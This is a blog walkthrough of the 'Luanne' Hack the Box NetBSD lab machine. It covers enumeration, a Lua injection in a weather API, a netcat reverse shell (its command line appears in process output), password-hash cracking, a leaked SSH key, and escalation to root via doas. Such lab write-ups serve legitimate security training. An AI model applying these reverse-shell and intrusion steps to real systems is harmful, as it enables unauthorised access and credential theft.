







I recently managed to complete another machine on Hack the Box, and in this post, I want to walk you through the steps I took to solve it. Luanne got released as an easy difficulty NetBSD machine. I can't entirely agree with this difficulty level, as many others have also given this machine a lousy rating and got some critique in the forums. Nonetheless, I really enjoyed solving this machine. For me, the main problem was my lack of experience with BSD systems. It made me waste a lot of time getting my Linux reverse shell knowledge ported over to BSD. But forgetting that I was solving a BSD machine halfway through the challenge also didn't help! Let's dive into the machine and start our initial discovery with a nmap scan. The command will enumerate all versions `-sV`, run all default scripts `-sC`, and store the output in `nmap.txt` to refer back to it later.

```sh
$ nmap -sV -sC -o nmap.txt 10.10.10.218
# Nmap 7.91 scan initiated Thu Mar 25 20:12:44 2021 as: nmap -sC -sV -o nmap.txt 10.10.10.218
Nmap scan report for 10.10.10.218
Host is up (0.022s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.0 (NetBSD 20190418-hpn13v14-lpk; protocol 2.0)
| ssh-hostkey:
|   3072 20:97:7f:6c:4a:6e:5d:20:cf:fd:a3:aa:a9:0d:37:db (RSA)
|   521 35:c3:29:e1:87:70:6d:73:74:b2:a9:a2:04:a9:66:69 (ECDSA)
|_  256 b3:bd:31:6d:cc:22:6b:18:ed:27:66:b4:a7:2a:e4:a5 (ED25519)
80/tcp   open  http    nginx 1.19.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=.
| http-robots.txt: 1 disallowed entry
|_/weather
|_http-server-header: nginx/1.19.0
|_http-title: 401 Unauthorized
9001/tcp open  http    Medusa httpd 1.12 (Supervisor process manager)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=default
|_http-server-header: Medusa/1.12
|_http-title: Error response
Service Info: OS: NetBSD; CPE: cpe:/o:netbsd:netbsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar 25 20:16:04 2021 -- 1 IP address (1 host up) scanned in 200.25 seconds
```

At this point, I kicked off another scan in the background to scan all ports with `-p-`, but that didn't turn up any new results. You can see that the target host has ports 22, 80 and 9001 open and is using NetBSD. A few other things to note is the `robots.txt` file behind the service running on port 80 and that both services require authentication.

I'm not sure what Medusa httpd or Supervisor process manager is. So I'm going to focus my attention first on the service running behind port 80. Opening up Firefox, we get greeted with a basic auth login prompt.



Cancelling the login prompt, I noticed something interesting. In the returned response, we get a reference to something running on localhost `127.0.0.1:3000`. Probably an interesting service to take a deeper look at when I get a foothold on the machine!



A gobuster scan `gobuster dir -u http://10.10.10.218 -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o 80-root.txt` didn't show anything interesting other than the 401 on `/`. Looking at `robots.txt` gives the following:

```sh
curl http://10.10.10.218/robots.txt
User-agent: *
Disallow: /weather  #returning 404 but still harvesting cities
```

We already know that `/weather` is giving a 404 because it wasn't showing up in our gobuster scan. But the comment indicates that this endpoint could still return something. So I kicked off another gobuster scan, this time focusing on the `/weather` endpoint.

```sh
$ gobuster dir -u http://10.10.10.218/weather -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt  -o ./weather.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.218/weather
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/25 20:43:31 Starting gobuster in directory enumeration mode
===============================================================
/forecast             (Status: 200) [Size: 90]

===============================================================
2021/03/25 20:45:23 Finished
===============================================================
```

So the weather endpoint has `/forecast` that does return a 200. Let's play around with curl and try to get a better understand of how this API works:

```sh
$curl 10.10.10.218/weather/forecast
{"code": 200, "message": "No city specified. Use 'city=list' to list available cities."}

$ curl 10.10.10.218/weather/forecast?city=list
{"code": 200,"cities": ["London","Manchester","Birmingham","Leeds","Glasgow","Southampton","Liverpool","Newcastle","Nottingham","Sheffield","Bristol","Belfast","Leicester"]}
```

It seems the API is relatively straightforward. Given a parameter `city`, it will provide you with the weather forecast for that city. This city parameter is something I can control and thus want to play around with next. Lets see see if we can get some weird results by adding special characters. I always like to manually add the following characters (`%`, `"` and `'`) because I find they often yield interesting results.

```sh
$ curl 10.10.10.218/weather/forecast?city=London%
{"code": 200, "message": "No city specified. Use 'city=list' to list available cities."}

$ curl 10.10.10.218/weather/forecast?city=London\"
{"code": 500,"error": "unknown city: London""}

$ curl 10.10.10.218/weather/forecast?city=London\'
<br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value
```

Not sure what happened when injecting the percentage sign. It seems that it invalidated the whole query. But hard to say, for now, let's keep that in mind for later. Because using a single quote returns a Lua error message. I have written some Lua code in the past but am by all means no expert in this language. I will need to do some research to better understand what constructs the language/runtime offers to get an RCE.



This first article was fascinating, especially the following section, which gave me a good overview of how to construct my initial exploit.



Continuing on this idea, I would like to make sure I can get some basic injection working. But for this, I'm going to move on to Burp Suite so I can have better control over the payload I'm going to inject. Playing around, I managed to cobble together a working payload:



Do notice the `--`, which is a comment in Lua and is required to get this exploit working. Adding a comment to the end of a payload is always an easy escape hatch to get an exploit to work. We can see it is working because the output of the `id` comment got appended in the response. We now know that we can execute commands as the `_httpd` user on the host.

At this point, I got stuck for some time trying to get a reverse shell up and running. I didn't manage to get any of my default reverse shells working. I even tried writing the payload in Lua, but that didn't work because of missing modules. Taking a step back, I remembered again that this target host was a BSD system. Searching around for a BSD specific reverse shell, I bumped into this [repo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd).



And I've got a shell:

```sh
$nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.218] 65485
sh: can't access tty; job control turned off
$ whoami
_httpd
$ ls -al
total 20
drwxr-xr-x   2 root  wheel  512 Nov 25 11:27 .
drwxr-xr-x  24 root  wheel  512 Nov 24 09:55 ..
-rw-r--r--   1 root  wheel   47 Sep 16  2020 .htpasswd
-rw-r--r--   1 root  wheel  386 Sep 17  2020 index.html
-rw-r--r--   1 root  wheel   78 Nov 25 11:38 robots.txt
```

The directory seems to have a `.htpasswd`, which contains a UNIX md5 hash. We can verify this by dumping example hashes from hashcat and grep for the first couple of characters of the hash:

```sh
hashcat --example-hashes | grep '\$1\$' -B 1
MODE: 500
TYPE: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
HASH: $1$38652870$DUjsu4TTlTsOe/xxZ05uf/
--
TYPE: eCryptfs
HASH: $ecryptfs$0$1$4207883745556753$567daa975114206c
--
TYPE: FileVault 2
HASH: $fvde$1$16$84286044060108438487434858307513$20000$f1620ab93192112f0a23eea89b5d4df065661f974b704191
--
TYPE: BitLocker
HASH: $bitlocker$1$16$6f972989ddc209f1eccf07313a7266a2$1048576$12$3a33a8eaff5e6f81d907b591$60$316b0f6d4cb445fb056f0e3e0633c413526ff4481bbf588917b70a4e8f8075f5ceb45958a800b42cb7ff9b7f5e17c6145bf8561ea86f52d3592059fb
```

This shows what mode we should use to crack the password:

```sh
$ hashcat -a 0 -m 500 -o cracked.txt hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --username

$ cat cracked.txt
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0:iamthebest
```

Hashcat appends the cracked password to the end of the line. The cracked password and username give access to the service running on port `80`. But there is nothing much to be gained here:



I also tried to get access to the service running on port `9001`, but the credentials didn't seem to work for this service. Pretty early on, I noticed that Nginx was proxying to something on localhost. Let's have a look and see what is running on this box:

```sh
$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY   STAT STARTED    TIME COMMAND
root           0  0.0  0.2      0 11168 ?     OKl   8:19PM 0:03.10 [system]
root           1  0.0  0.0  19852  1524 ?     Is    8:19PM 0:00.01 init
root         163  0.0  0.0  32528  2292 ?     Ss    8:19PM 0:00.05 /usr/sbin/syslogd -s
r.michaels   185  0.0  0.0  34992  1972 ?     Is    8:19PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www
root         298  0.0  0.0  19704  1336 ?     Is    8:19PM 0:00.00 /usr/sbin/powerd
root         299  0.0  0.0  33368  1832 ?     Is    8:19PM 0:00.00 nginx: master process /usr/pkg/sbin/nginx
root         318  0.0  0.1 117944  7212 ?     Il    8:19PM 0:11.27 /usr/pkg/bin/vmtoolsd
_httpd       336  0.0  0.2 118064 13548 ?     Ss    8:19PM 0:05.40 /usr/pkg/bin/python3.8 /usr/pkg/bin/supervisord-3.8
root         348  0.0  0.0  71348  2928 ?     Is    8:19PM 0:00.01 /usr/sbin/sshd
nginx        373  0.0  0.1  33920  3248 ?     I     8:19PM 0:02.91 nginx: worker process
_httpd       376  0.0  0.0  34952  1996 ?     Is    8:19PM 0:00.01 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua -U _httpd -b /var/www
root         402  0.0  0.0  20220  1668 ?     Ss    8:19PM 0:00.04 /usr/sbin/cron
_httpd       411  0.0  0.0  20016  1652 ?     I     8:19PM 0:00.22 /bin/sh /usr/local/scripts/processes.sh
_httpd       422  0.0  0.0  19988  1652 ?     I     8:19PM 0:00.10 /bin/sh /usr/local/scripts/memory.sh
_httpd       436  0.0  0.0  19992  1652 ?     I     8:19PM 0:00.09 /bin/sh /usr/local/scripts/uptime.sh
_httpd      4064  0.0  0.0  17640  1384 ?     I     1:07AM 0:00.00 sleep 30
_httpd      4210  0.0  0.0  17636  1384 ?     I     1:07AM 0:00.00 sleep 30
_httpd      4309  0.0  0.0  22708  1520 ?     O     1:08AM 0:00.00 ps -auxww
_httpd      5897  0.0  0.0  20028  1716 ?     I    10:46PM 0:00.00 sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 6666 >/tmp/f
_httpd      6338  0.0  0.0  15948  1400 ?     S    10:46PM 0:00.00 nc 10.10.14.17 6666
_httpd      6888  0.0  0.0  20052  1688 ?     S    10:46PM 0:00.00 /bin/sh -i
_httpd      7415  0.0  0.0  35252  2328 ?     I    10:46PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua -U _httpd -b /var/www
_httpd      7517  0.0  0.0  15436  1284 ?     S    10:46PM 0:00.00 cat /tmp/f
_httpd     11343  0.0  0.0  17636  1384 ?     I     1:07AM 0:00.00 sleep 30
root         423  0.0  0.0  19780  1580 ttyE0 Is+   8:19PM 0:00.00 /usr/libexec/getty Pc constty
root         421  0.0  0.0  19780  1576 ttyE1 Is+   8:19PM 0:00.00 /usr/libexec/getty Pc ttyE1
root         388  0.0  0.0  19780  1584 ttyE2 Is+   8:19PM 0:00.00 /usr/libexec/getty Pc ttyE2
root         433  0.0  0.0  19780  1584 ttyE3 Is+   8:19PM 0:00.00 /usr/libexec/getty Pc ttyE3
```

There seem to be two services running on localhost, one on port `3000` and one on `3001`. They both seem to be running the same httpd binary and weather service. But when looking closely, they seem to be using different scripts and command-line flags. It's time to have a deeper look into this httpd binary:

```txt
 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_dev
el.pid -U r.michaels -b /home/r.michaels/devel/www
```

With the help of my search engine, I bumped into [this](https://man.netbsd.org/NetBSD-6.0.1/httpd.8) NetBSD httpd manpage. Let's have a look and try to piece together what each argument does:

| Argument | Description                                                                                                      |
| -------- | ---------------------------------------------------------------------------------------------------------------- |
| -u       | Enables the transformation of Uniform Resource Locators of the form /~user/ into the directory ~user/public_html |
| -X       | Enables directory indexing                                                                                       |
| -s       | Forces logging to be set to stderr always.                                                                       |
| -i       | Sets the address to be used.                                                                                     |
| -I       | Causes httpd to use the given port instead of the default one.                                                   |
| -U       | Causes httpd to switch to the given user                                                                         |

The interesting thing here is the `-u` flag, which allows access to user directories by using a URL in the form of `/~user/`. `-U`, on the other hand, runs the service under a different user. So let's have a look at the service running on port `3001`. It requires some form of authentication, but we already managed to crack a password, lets see if that one works:

```sh
$ curl -u webapi_user:iamthebest localhost:3001/~r.michaels/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   601    0   601    0     0   146k      0 --:--:-- --:--:-- --:--:--  146k
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
        border-top: 1px solid black;
        border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>
```

A directory listing, showing an id_rsa file in r.michaels home directory. I downloaded the key with `curl -u webapi_user:iamthebest localhost:3001/~r.michaels/id_rsa` and used ssh to login into the account from my local machine:

```sh
$ ssh -i id_rsa r.michaels@10.10.10.218
Last login: Fri Mar 26 01:41:54 2021 from 10.10.14.17
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020

Welcome to NetBSD!

luanne$ whoami
r.michaels
luanne$ ls -al
total 52
dr-xr-x---  7 r.michaels  users   512 Sep 16  2020 .
drwxr-xr-x  3 root        wheel   512 Sep 14  2020 ..
-rw-r--r--  1 r.michaels  users  1772 Feb 14  2020 .cshrc
drwx------  2 r.michaels  users   512 Sep 14  2020 .gnupg
-rw-r--r--  1 r.michaels  users   431 Feb 14  2020 .login
-rw-r--r--  1 r.michaels  users   265 Feb 14  2020 .logout
-rw-r--r--  1 r.michaels  users  1498 Feb 14  2020 .profile
-rw-r--r--  1 r.michaels  users   166 Feb 14  2020 .shrc
dr-x------  2 r.michaels  users   512 Sep 16  2020 .ssh
dr-xr-xr-x  2 r.michaels  users   512 Nov 24 09:26 backups
dr-xr-x---  4 r.michaels  users   512 Sep 16  2020 devel
dr-x------  2 r.michaels  users   512 Sep 16  2020 public_html
-r--------  1 r.michaels  users    33 Sep 16  2020 user.txt
luanne$
```

And that's the user flag right there `/home/r.michaels/user.txt`. This directory contains everything required to escalate privileges to the root account. This took me a bit of time to figure out. Initially, I started looking at privilege escalation detection scripts. But looking closely, I noticed the `.gnupg` contains a key, and the `backups` directory has an encrypted file.

```sh
luanne$ pwd
/home/r.michaels
luanne$ ls -al .gnupg
total 16
drwx------  2 r.michaels  users   512 Sep 14  2020 .
dr-xr-x---  7 r.michaels  users   512 Sep 16  2020 ..
-rw-------  1 r.michaels  users   603 Sep 14  2020 pubring.gpg
-rw-------  1 r.michaels  users  1291 Sep 14  2020 secring.gpg
luanne$ ls -al backups/
total 12
dr-xr-xr-x  2 r.michaels  users   512 Nov 24 09:26 .
dr-xr-x---  7 r.michaels  users   512 Sep 16  2020 ..
-r--------  1 r.michaels  users  1970 Nov 24 09:25 devel_backup-2020-09-16.tar.gz.enc
```

Some research online reveals that on NetBSD the tool [netpgp](https://man.netbsd.org/netpgp.1) can be used used to decrypt files:

```sh
luanne$ cd backups/

luanne$ netpgp --decrypt --output=/tmp/backup.tar.gz  devel_backup-2020-09-16.tar.gz.enc
signature  2048/RSA (Encrypt or Sign) 3684eb1e5ded454a 2020-09-14
Key fingerprint: 027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a
uid              RSA 2048-bit key <r.michaels@localhost>

luanne$ cd /tmp

luanne$ tar -xzvf backup.tar.gz
x devel-2020-09-16/
x devel-2020-09-16/www/
x devel-2020-09-16/webapi/
x devel-2020-09-16/webapi/weather.lua
x devel-2020-09-16/www/index.html
x devel-2020-09-16/www/.htpasswd
```

Decrypting the file to the `tmp` directory and extracting it shows another `.htpasswd` file. Let's also try and crack it in the same manner as before by copying the hash to our local machine and run hashcat on it.

```sh
$ hashcat -a 0 -m 500 -o cracked.txt hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --username --show

 $ cat cracked.txt
webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.:littlebear
```

Another password cracked! This time it returns `littlebear`, but it seems that this password is supposedly for the same webapi_user. On a BSD system, `doas` is the equivalent of `sudo` on Linux. So let's see if `r.micheals` is allowed to run programs as root:

```sh
luanne$ doas whoami
Password:
root
```

Alright, we have root access with this password. Suppose you are in a situation where you want to play on the safe side, not set off any alarms, ... . It's possible first to check the `doas.conf` file, similar to the `sudoers` file on Linux; it will show if a user has sudo access and what access is allowed. I skipped this step because I couldn't locate the `doas.conf` file on this NetBSD system and didn't want to waste much more time. Or use a privilege escalation suite which could probably also detect this for you.

```sh
luanne$ doas sh
Password:
# ls
# cd /root
# ls -al
total 36
drwxr-xr-x   2 root  wheel   512 Nov 24 09:30 .
drwxr-xr-x  21 root  wheel   512 Sep 16  2020 ..
-r--r--r--   2 root  wheel  1220 Feb 14  2020 .cshrc
-rw-------   1 root  wheel    59 Feb 14  2020 .klogin
-rw-r--r--   1 root  wheel   212 Feb 14  2020 .login
-r--r--r--   2 root  wheel   701 Feb 14  2020 .profile
-rw-r--r--   1 root  wheel   221 Feb 14  2020 .shrc
-r-x------   1 root  wheel   178 Nov 24 09:57 cleanup.sh
-r--------   1 root  wheel    33 Sep 16  2020 root.txt
```

And that's the root flag `/root/root.txt`, which concludes my walkthrough.

## Conclusion

This was a pretty fun challenge to solve. But I do think I got lucky a couple of times here there. I, for example, never dug into the service running on port 9001. When reading the official walkthrough afterwards, the Medusa Supervisor Process Manager running behind this port was configured using the default credentials of `user` and password `123`. This application gives an overview of running processes and reveals that Lua script is running on this machine. From what I understood, this service would have no other use than that. So I got slightly lucky figuring out what language was used because of the error message leaking this back to me.

I always learn something new by solving these machines. This time I learned lots of new stuff about BSD systems and NetBSD in general. Something I would others rarely run in to or use in my day to day life. I am already looking forward to sharing my following walkthrough and learnings with you all.
